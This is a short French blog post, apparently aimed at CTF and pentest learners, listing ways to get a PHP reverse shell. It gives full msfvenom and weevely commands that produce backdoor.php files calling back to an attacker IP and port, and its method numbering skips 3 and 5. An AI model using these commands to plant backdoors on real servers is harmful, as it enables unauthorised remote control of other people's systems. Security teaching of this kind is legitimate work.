 ```yaml
---
layout: post
section-type: post
title: Reverse shell
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Le but de cet article est de vous montrer les différentes façons de vous munir d'un "reverse shell".

Pour des raisons de modularité, un article traitant le reverse shell de façon complète sera rédigé et il fera réference à celui-ci ainsi qu'à plein d'autres disponibles sur mon site. 

---------------------------------------------

#### Pré requis 
1-Avoir les bases d'un langage de programmation côté serveur <br/>
2-Avoir installer et configurer une machine orientée "sécurité" (Kali linux, Parrot OS,...) <br/>
3-Avoir fait les configurations nécessaires dans votre routeur: cas d'une connexion distante

---------------------------------------------

#### Méthode 1: shell par défaut sur kali linux
  <pre><code data-trim class="yaml">
      #répertoire par défaut des "reverse shell" sur Kali linux
      cd /usr/share/webshell/php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 2: créer un reverse shell avec meterpreter
  <pre><code data-trim class="yaml">
      #reverse shell nommé enregistré sur le bureau sous "backdoor.php" au profit de la machine d'IP 10.23.201.17 écoutant sur le port 1234
      msfvenom -p php/meterpreter/reverse_tcp LHOST=10.23.201.17 LPORT=1234 > /Desktop/backdoor.php
  </code></pre> <br/>

---------------------------------------------


#### Méthode 4: créer un reverse shell avec weevely
  <pre><code data-trim class="yaml">
      #reverse shell enregistré sur le bureau sous "backdoor.php" avec le mot de passe "noLogMe"
      weevely generate noLogMe /root/Desktop/backdoor.php 
  </code></pre> <br/>

NB: N'oubliez pas de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 6: utiliser Internet
  visiter le site web : [http://pentestmonkey.net/](http://pentestmonkey.net/), par exemple

NB: Il ne faudra pas oublier de faire les modifications qui vont bien, notamment votre IP et port d'écoute.

---------------------------------------------

#### Méthode 7: codez vous-même
  Nous reviendrons plus tard sur la logique de codage de votre propre reverse shell et le pratiquerons en C, python et PHP. Vous devinez donc que vous aurez besoin de savoir programmer en C ou en python ou en PHP en plus d'avoir des notions de base en réseau informatique

---------------------------------------------
